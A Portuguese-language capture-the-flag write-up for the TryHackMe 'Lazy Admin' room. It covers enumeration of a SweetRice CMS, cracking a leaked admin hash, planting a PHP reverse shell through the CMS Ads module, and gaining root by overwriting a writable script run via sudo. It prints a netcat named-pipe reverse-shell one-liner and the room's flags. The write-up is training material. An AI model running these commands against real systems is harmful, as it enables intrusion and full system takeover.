








<div class="page"/>

# **Pós-Exploração - Lazy Admin | Sonael de A. Angelos Neto**

- ### **Escalação de Privilégios No Linux**

  A Escalação de privilégios em Linux refere-se ao processo de aumentar as permissões de um usuário ou processo para acessar recursos que normalmente exigem níveis mais altos de permissões. Isso pode ser necessário para executar certas tarefas, como instalar software ou realizar alterações no sistema operacional que exigem privilégios de administrador.

  A Escalação de privilégios geralmente é feita por meio de vulnerabilidades de segurança ou explorações de software que permitem que um invasor obtenha acesso de nível mais alto do que o permitido. Essa é uma das principais razões pelas quais a segurança é uma preocupação importante em sistemas Linux e por que é importante manter o sistema operacional atualizado com as últimas correções de segurança.

  Para evitar a Escalação de privilégios não autorizada, é recomendável que os usuários e administradores de sistemas limitem o acesso aos recursos do sistema somente a usuários com as permissões adequadas e usem ferramentas de segurança, como firewalls e antivírus, para proteger o sistema contra vulnerabilidades conhecidas e ameaças de segurança.

- ### **Quais são as formas de Escalação de Privilégios?**

  Existem diversas formas de elevar os privilégios em sistemas Linux, mas é importante ressaltar que a maioria dessas técnicas requer acesso ao sistema ou exploração de vulnerabilidades de segurança. Algumas das formas de elevar o privilégio em Linux são:

  - Explorar vulnerabilidades em softwares instalados no sistema.

  - Usar técnicas de engenharia social para obter informações de autenticação de usuários privilegiados.
  
  - Aproveitar-se de permissões inadequadas em arquivos ou diretórios.
  
  - Usar exploits de kernel para obter acesso root ao sistema.
  
  - Utilizar ferramentas especializadas de hacking que automatizam a busca e exploração de vulnerabilidades em sistemas Linux.
  
  - Usar técnicas de injeção de código para executar comandos maliciosos com privilégios de root.
  
  Para evitar a elevação de privilégios não autorizada, é importante manter o sistema atualizado com as últimas correções de segurança e limitar o acesso aos recursos do sistema somente a usuários com as permissões adequadas. Além disso, o uso de soluções de segurança, como firewalls e antivírus, também pode ajudar a proteger o sistema contra vulnerabilidades conhecidas e ameaças de segurança.

---

<div class="page"/>

## **<center>Sumário</center>**

  **Esse documento é um passo a passo de como eu resolvi a máquina do TryHackMe chamada "Lazy Admin".**

  1. #### ***<a href="#1">Exploração e Enumeração.a>***
  2. #### ***<a href="#2">Conseguindo Acesso a máquina.</a>***
  3. #### ***<a href="#3">Escalação de Privilégio Vertical.</a>***
  4. #### ***<a href="#4">Capturar as Flags.x</a>***


### **Complementos:**

   5. #### ***<a href="#5">Dificuldades.</a>***
   6. #### ***<a href="#6">Conclusão.</a>***
   7. #### ***<a href="#7">Referências.</a>***
   8. #### ***<a href="#8">Links p/ Laboratório.</a>***
  
---

### **Ferramentas utilizadas:**

- #### [nmap](https://nmap.org/)
    - Utilizaremos o nmap para fazer o scan de portas e serviços.

- #### [netcat](https://eternallybored.org/misc/netcat/)
    - Utilizaremos o netcat para abrir conexões.

- #### [ffuf](https://github.com/ffuf/ffuf)
    - Utilizaremos o ffuf para fazer o brute force em diretórios.

---

<div class="page"/>

## **<a id="1"> • Exploração e Enumeração.</a>**

Ao iniciar a maquina a primeira coisa que vamos fazer é um scan de portas para ver quais estão abertas e quais serviços estão rodando nelas.

E para isso vamos utilizar o nmap.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           20:07:24
╰──➤ nmap -sV -Pn -v 10.10.133.59
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-03 20:07 -03
NSE: Loaded 45 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 20:07
Completed Parallel DNS resolution of 1 host. at 20:07, 1.11s elapsed
Initiating SYN Stealth Scan at 20:07
Scanning 10.10.133.59 [1000 ports]
Discovered open port 80/tcp on 10.10.133.59
Discovered open port 22/tcp on 10.10.133.59
Completed SYN Stealth Scan at 20:07, 2.74s elapsed (1000 total ports)
Initiating Service scan at 20:07
Scanning 2 services on 10.10.133.59
Completed Service scan at 20:08, 6.58s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.133.59.
Initiating NSE at 20:08
Completed NSE at 20:08, 1.01s elapsed
Initiating NSE at 20:08
Completed NSE at 20:08, 0.94s elapsed
Nmap scan report for 10.10.133.59
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.96 seconds
           Raw packets sent: 1159 (50.996KB) | Rcvd: 1104 (44.168KB)
```

Então temos:

- Porta 22 aberta com o serviço SSH rodando na versão 7.2p2 do OpenSSH.
- Porta 80 aberta com o serviço HTTP rodando na versão 2.4.18 do Apache.

<div class="page"/>

Vamos então acessar a porta 80 e ver o que temos.



Descobrimos que temos uma página web rodando no Apache.

Vamos agora fazer um scan de diretórios para ver se conseguimos encontrar algum diretório interessante.

Para isso vamos utilizar o `ffuf`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           20:13:51
╰──➤ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://10.10.133.59/FUZZ

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.133.59/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 296ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 5153ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 255ms]
content                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 240ms]
index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 231ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 234ms]
:: Progress: [4713/4713] :: Job [1/1] :: 174 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
```

Dentre os diretórios listados um deles chama mais a atenção, o `content`. Então vamos acessar o diretório e ver o que temos.



Descobrimos que a aplicação está usando o CMS SweetRice. Vamos então rodar de novo o `ffuf` agora em cima do diretorio `content` para ver se conseguimos encontrar mais alguma coisa.


```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           20:14:53
╰──➤ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://10.10.133.59/content/FUZZ

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.133.59/content/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 3900ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4909ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 5148ms]
_themes                 [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 210ms]
as                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 240ms]
attachment              [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 230ms]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 211ms]
inc                     [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 208ms]
index.php               [Status: 200, Size: 2198, Words: 109, Lines: 36, Duration: 601ms]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 208ms]
:: Progress: [4713/4713] :: Job [1/1] :: 190 req/sec :: Duration: [0:00:29] :: Errors: 0 ::
```

Clicando no diretório `as` somos levados para uma página de login. Porém ainda não temos nenhum usuário para fazer o login.



Então vamos dar uma olhada nos outros diretórios.

Ao clicar no diretório `inc` somos levados a um diretório com vários arquivos expostos.



Olhando os arquivos podemos ver que temos um diretório chamado `mysql_backup` que contém um arquivo chamado `mysql_bakup_20191129023059-1.5.1.sql`. Vamos baixar esse arquivo para nossa máquina e analisar ele.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/LazyAdmin                                                                             20:30:53
╰──➤ wget http://10.10.133.59/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
--2023-03-03 20:31:11--  http://10.10.133.59/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
Connecting to 10.10.133.59:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4809 (4.7K) [application/x-sql]
Saving to: ‘mysql_bakup_20191129023059-1.5.1.sql’

mysql_bakup_20191129023059-1.5.1.sql 100%[======================================================================>]   4.70K  --.-KB/s    in 0s

2023-03-03 20:31:12 (332 MB/s) - ‘mysql_bakup_20191129023059-1.5.1.sql’ saved [4809/4809]
```

Ao abrir o arquivo nós temos a seguinte query:

```sql
INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";
```

Aqui podemos ver que temos um usuário chamado `manager` e uma senha hash MD5 `42f749ade7f9e195bf475f37a44cafcb`. Vamos tentar quebrar essa hash de senha utilizando o site [CrackStation](https://crackstation.net/).



Temos então que a senha do usuário `manager` é `Password123`. Vamos tentar fazer login com essas credenciais.



---

<div class="page"/>

## **<a id="2"> • Conseguindo Acesso a máquina.</a>**

Ao fazer login somos levados para a página de administração do CMS. Caminhado um pouco pelo CMS podemos ver que temos um módulo chamado `Ads` que permite inserir códigos na página.

Vamos utilizar esse modulo para fazer upload de uma reverse shell para o servidor. Para isso vamos utilizar o payload `/usr/share/webshells/php/php-reverse-shell.php` que está disponível no Kali.

Vamos colar o payload no campo `Ads code` e não podemos esquecer de colocar o nosso IP e porta para receber a conexão.



Agora podemos clicar em `Done` para que nosso payload fique salvo no servidor.

Antes de qualquer coisa temos que abrir uma sessão no nosso computador para receber a conexão da reverse shell e para isso vamos utilizar o `netcat`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/LazyAdmin                                                                             20:41:02
╰──➤ nc -nvlp 1234
listening on [any] 1234 ...
```

Agora para executar o payload vamos acessar a página `/content/inc/ads/` que é onde o CMS salva os arquivos que são inseridos no módulo `Ads`. Basta clicar no arquivo que acabamos de criar para que ele seja executado e a nossa reverse shell seja aberta.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/LazyAdmin                                                                             20:41:02
╰──➤ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.133.59] 52548
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 01:48:39 up 42 min,  0 users,  load average: 0.00, 0.00, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
---

## **<a id="3"> • Escalação de Privilégio Vertical.</a>**

Primeiramente para melhorar a nossa experiência de usuário vamos utilizar o comando `python -c 'import pty; pty.spawn("/bin/bash")'` para que possamos utilizar o bash como se estivéssemos em um terminal.

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@THM-Chal:/$
```

Então agora vamos procurar por arquivos que nós ajudem a encontrar uma forma de escalar privilégio. Usando o comando `Sudo -l` podemos ver quais arquivos o usuário `www-data` pode executar com o comando `sudo`.

```bash
www-data@THM-Chal:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

<div class="page"/>

Aqui podemos ver que o usuário `www-data` tem permissão para executar o arquivo o binário `/usr/bin/perl` e o `/home/itguy/backup.pl` com o comando `sudo`. Vamos tentar ler o arquivo `/home/itguy/backup.pl` para ver se conseguimos encontrar alguma informação útil.

```bash
www-data@THM-Chal:/$ cat /home/itguy/backup.pl
cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

Aqui podemos ver que o arquivo `/home/itguy/backup.pl` executa o arquivo `/etc/copy.sh` com o comando `system`. Vamos tentar ler o arquivo `/etc/copy.sh`.

```bash
www-data@THM-Chal:/$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

O arquivo `/etc/copy.sh` executa um comando `nc` que faz uma conexão com o ip `192.168.0.190` na porta `5554`.

```bash
www-data@THM-Chal:/$ ls -la /etc/copy.sh
ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

Utilizando o `ls` temos que o dono do arquivo é o usuário `root` e o grupo dono do arquivo é o `root`. Vamos tentar modificar o arquivo `/etc/copy.sh` para que ele execute um comando `nc` que nos conecte na nossa máquina.

```bash
www-data@THM-Chal:/$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.20.23 1234 >/tmp/f" > /etc/copy.sh
<t /tmp/f|/bin/sh -i 2>&1|nc 10.18.20.23 1234 >/tmp/f" > /etc/copy.sh
www-data@THM-Chal:/$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.20.23 1234 >/tmp/f
```

Agora que conseguimos modificar o arquivo `/etc/copy.sh` vamos executar o arquivo `/home/itguy/backup.pl` utilizando o binário `perl` como sudo para que ele execute o arquivo `/etc/copy.sh`.

<div class="page"/>

Mas antes vamos abrir uma sessão no nosso computador para receber a conexão do nosso script.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           20:57:42
╰──➤ nc -nvlp 1234
listening on [any] 1234 ...

```

Agora vamos executar o arquivo `/home/itguy/backup.pl` utilizando o binário `perl` como sudo.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           20:57:42
╰──➤ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.133.59] 52552
# python -c 'import pty; pty.spawn("/bin/bash")'
root@THM-Chal:/# whoami
whoami
root
```
---

## **<a id="4"> • Capturar as Flags.</a>**

Agora que somos o usuário `root` vamos capturar as flags.

A flag root está no arquivo `/root/root.txt`.

```bash
root@THM-Chal:/# cd ~
cd ~
root@THM-Chal:~# ls
ls
root.txt
root@THM-Chal:~# cat root.txt
cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

A flag user está no arquivo `/home/itguy/user.txt`.

```bashroot@THM-Chal:/home# cd /home
cd /home
root@THM-Chal:/home# cd itguy
cd itguy
root@THM-Chal:/home/itguy# ls
ls
Desktop    Downloads  Pictures  Templates  backup.pl         mysql_login.txt
Documents  Music      Public    Videos     examples.desktop  user.txt
root@THM-Chal:/home/itguy# cat user.txt
cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

Agora basta inserir as flags no site do TryHackMe para completar o desafio.



---

## **<a id="5">• Dificuldades.</a>**

*Nenhuma dificuldade relevante. =}* 

---

## **<a id="6">• Conclusão.</a>**

Em conclusão, a elevação de privilégios em sistemas Linux é um processo de aumento de permissões de um usuário ou processo para acessar recursos que normalmente exigem níveis mais altos de permissões. Embora seja essencial para a execução de algumas tarefas, a elevação de privilégios também pode representar um risco de segurança se for explorada de forma inadequada.

Existem várias formas de elevar os privilégios em sistemas Linux, incluindo a exploração de vulnerabilidades de segurança, o uso de técnicas de engenharia social, a exploração de permissões inadequadas em arquivos ou diretórios, o uso de exploits de kernel e o uso de ferramentas especializadas de hacking.

Para evitar a elevação de privilégios não autorizada, é fundamental implementar medidas de segurança adequadas, como manter o sistema atualizado com as últimas correções de segurança, limitar o acesso aos recursos do sistema somente a usuários com as permissões adequadas e usar soluções de segurança, como firewalls e antivírus.

Em suma, a elevação de privilégios em sistemas Linux é uma questão de segurança crítica que requer atenção constante e medidas preventivas para proteger o sistema contra ameaças internas e externas.

---

<div class="page"/>

## **<a id="7">• Referências.</a>**

- [SUID Executables](https://pentestlab.blog/2017/09/25/suid-executables/)
  
- [GTFOBins](https://gtfobins.github.io)

- [Privilege Escalation on Linux](https://delinea.com/blog/linux-privilege-escalation)

- [ChatGPT](https://chat.openai.com/chat)

- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

- [Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

---

## **<a id="8">• Laboratório.</a>**

  - [lazyadmin](https://tryhackme.com/room/lazyadmin)